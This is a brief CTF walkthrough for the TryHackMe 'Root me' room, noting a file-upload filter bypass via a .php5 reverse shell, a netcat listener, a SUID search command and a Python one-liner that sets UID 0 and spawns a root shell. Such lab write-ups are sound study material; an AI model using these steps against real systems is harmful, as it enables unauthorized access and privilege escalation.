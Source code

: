 # Root me 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**




## Gaining Access 😉

- PHP reverse shell uploaded as .php5 extesion
- netcat to listen on port



## Maintaining Access 🥷
- SUID Permission
	- /usr/bin/python


## Important commands 🔥
- find / -perm /4000
	```
	/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
	```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- it's possible to bypass .php Extesions filter by renaming it as .php5
- used python script for privilege escalation 


--------------------------------
**By Nibras Muhammed** 🤓🖥️






